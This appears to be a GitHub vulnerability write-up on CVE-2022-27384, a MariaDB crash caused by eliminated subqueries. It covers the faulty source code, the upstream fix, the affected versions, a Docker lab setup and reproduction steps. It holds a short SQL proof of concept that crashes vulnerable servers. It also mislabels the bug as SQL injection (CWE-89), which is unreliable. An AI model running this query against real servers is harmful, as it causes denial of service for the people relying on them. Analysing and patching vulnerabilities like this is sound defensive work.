



# CVE-2022-27384 CWE-89 MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **CWE-89** (SQL injection) refers to an application constructing SQL statements without properly validating or escaping user input, allowing attackers to inject malicious SQL code and then execute unauthorized database operations. Such vulnerabilities can lead to data leaks, tampering, deletion, or even complete control of databases, making them one of the most common and highly harmful security vulnerabilities.

## Vulnerability Mechanism
When processing subqueries that have been "eliminated" by optimizers but still referenced, MariaDB mistakenly attempts to create caches for them, resulting in access to invalid structures and process crashes, resulting in DoS.

## Vulnerability Location
Analysis of MariaDB 10.6.3 source code:

In the sql/item_subselect.cc file, line **1376**, the main function of `expr_cache_insert_transformer()` is to create an expression cache for single-value subqueries when appropriate, to avoid repeated execution of the same subquery, thereby improving query performance

However, the function lacks a check for "eliminated subquery items" (`eliminated == true`). Even if a subquery is flagged redundant and removed by the optimizer, it may still remain in the structure, be discovered by `expr_cache_insert_transformer()`, and mistakenly attempt to create a cache. At this point, attempting to operate on an invalid structure may cause Null-pointer dereference or memory corruption, ultimately triggering a MariaDB crash.

```cpp
// item_subselect.cc, line 1376
Item* Item_singlerow_subselect::expr_cache_insert_transformer(THD *tmp_thd,uchar *unused)
{
  DBUG_ENTER("Item_singlerow_subselect::expr_cache_insert_transformer");

  DBUG_ASSERT(thd == tmp_thd);

    // If an expression cache has already been created, it returns the cached object directly
  if (expr_cache)
    DBUG_RETURN(expr_cache);

    // Determine whether you need to create an expression cache and attempt to create one
  if (expr_cache_is_needed(tmp_thd) &&
      (expr_cache= set_expr_cache(tmp_thd)))
  {
      // Initialize the tracker for the newly created cache object
    init_expr_cache_tracker(tmp_thd);
    DBUG_RETURN(expr_cache);
  }
    // Otherwise, the original subquery item itself is returned
  DBUG_RETURN(this);
}
```

The `remove_redundant_subquery_clauses()` optimizer steps remove some "redundant" subquery expressions and call the `Item::eliminate_subselect_processor` to disconnect them from the `SELECT_LEX` tree.

However, it does not clean all references simultaneously; for example, references to the subquery `Item` are still retained in `SELECT_LEX::ref_pointer_array` and `JOIN::all_fields`.

Then, when `setup_subquery_caches()` executes, it attempts to create an expression cache for these subqueries that have already been "logically removed." However, because these subqueries no longer have a proper query schedule, cache establishment fails, triggering segfaults—typical DoS attack vectors.

## Remediation
In the `expr_cache_insert_transformer()` method in the [`‎sql/item_subselect.cc`](https://github.com/MariaDB/server/commit/c01ee954bf3b10fef85af7b8c77d319ff7bd6b61#diff-b05e957d4a05bf5d24214bb45f107a4cd053290c21345486785a087da3a02727) file, a check is added before the operation, skipping the process of creating a cache for invalid subqueries.

```cpp
/* Do not create caches for eliminated subqueries */
if (eliminated)
    DBUG_RETURN(this);
```

Also, add assertions to the `Item_subselect::exec()` method to ensure that if a subquery item has been marked as "eliminated" (`eliminated = true`) by the optimizer, it should not be executed. Otherwise, calling `exec()` will access a logically removed subquery, which may cause access to invalid structures and trigger crashes.

```cpp
DBUG_ASSERT(!eliminated);
```

## Affected Versions
**Affected version:** MariaDB:

- 10.2.0 to 10.2.43
- 10.3.0 to 10.3.35
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.16
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3
- 10.8.0 to 10.8.2

**Impact Component**: Item_subselect::init_expr_cache_tracker

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and the container contains PoC file CVE-2022-27384-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-27384-PoC.sql, and you will see that an error is encountered and the container automatically closes

```sql
source CVE-2022-27384-PoC.sql
```



4. Check the MariaDB container crash log. You can see `[ERROR] mysqld got signal 11 ;`, which is a critical error triggered by a segment error, and you can see that the component is `Item_subselect：：init_expr_cache_tracker` fault.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (a int);
 
SELECT 1 IN 
	(SELECT NULL FROM t1 WHERE a IS NOT NULL GROUP BY 
     	(SELECT NULL from dual WHERE a = 1)
    );
```

`GROUP BY (SELECT NULL …)` Subqueries themselves are redundant (their results have no actual impact on the group). During the optimization phase, when calling `remove_redundant_subquery_clauses()`, this subquery condition is marked as "eliminated" and separated from the `SELECT_LEX` tree. But it still remains in data structures like `ref_pointer_array` and `JOIN::all_fields`.

When MariaDB enters `Item_subselect::init_expr_cache_tracker`, it scans and attempts to create a cache for "eliminated" subquery items. However, since these subqueries have no query schedule, `expr_cache_insert_transformer()` are called without properly cleaning `t1` subquery items, causing null-pointer dereference or out-of-bounds access, resulting in crashes.

## References
[NVD - CVE-2022-27384](https://nvd.nist.gov/vuln/detail/CVE-2022-27384)

[[MDEV-26047\] MariaDB server crash at Item_subselect::init_expr_cache_tracker - Jira](https://jira.mariadb.org/browse/MDEV-26047)

[MDEV-26047: MariaDB server crash at Item_subselect::init_expr_cache_t… · MariaDB/server@c01ee95](https://github.com/MariaDB/server/commit/c01ee954bf3b10fef85af7b8c77d319ff7bd6b61#diff-b05e957d4a05bf5d24214bb45f107a4cd053290c21345486785a087da3a02727)
